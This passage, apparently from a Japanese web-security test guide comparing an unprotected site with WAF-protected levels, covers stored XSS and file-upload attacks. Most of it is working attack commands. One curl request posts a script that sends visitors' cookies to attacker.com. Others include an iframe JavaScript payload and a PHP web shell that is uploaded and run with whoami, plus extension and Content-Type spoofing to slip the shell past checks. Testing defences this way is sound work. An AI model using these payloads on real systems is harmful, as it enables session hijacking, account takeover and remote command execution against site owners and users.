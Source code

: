 #### 格納型XSS攻撃

##### コメント機能での攻撃
```bash
# コメント投稿でのXSS
curl -X POST "http://<target-url>/comment" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "comment=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>&name=Attacker"

# より持続的なペイロード
curl -X POST "http://<target-url>/comment" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "comment=<iframe src=javascript:alert('Persistent XSS')></iframe>&name=Attacker"
```

#### 期待される結果

##### レベル1（無防備状態）
- **スクリプト実行**: 100%成功
- **Cookie窃取**: 可能
- **セッションハイジャック**: 可能
- **影響**: ユーザーアカウントの完全な乗っ取り

##### レベル2以降（WAF保護）
- **基本的なペイロード**: 80-95%ブロック
- **高度なペイロード**: 一部は成功する可能性
- **エラーメッセージ**: 403 Forbidden
- **影響**: 攻撃の大部分は軽減

### 2.3 ファイルアップロード攻撃

#### 目的
ファイルアップロード機能の検証不備を悪用して悪意のあるファイルを実行する攻撃をシミュレートします。

#### 悪意のあるファイルアップロード

##### PHPシェルのアップロード
```bash
# 悪意のあるPHPファイルの作成
echo '<?php system($_GET["cmd"]); ?>' > malicious.php

# ファイルのアップロード
curl -X POST "http://<target-url>/upload" \
  -F "file=@malicious.php" \
  -H "Content-Type: multipart/form-data"

# アップロードされたファイルの実行テスト
curl "http://<target-url>/uploads/malicious.php?cmd=whoami"
```

##### 拡張子偽装攻撃
```bash
# 拡張子を偽装したファイル
echo '<?php system($_GET["cmd"]); ?>' > image.jpg.php

# Content-Typeを偽装
curl -X POST "http://<target-url>/upload" \
  -F "file=@image.jpg.php;type=image/jpeg" \
  -H "Content-Type: multipart/form-data"
```
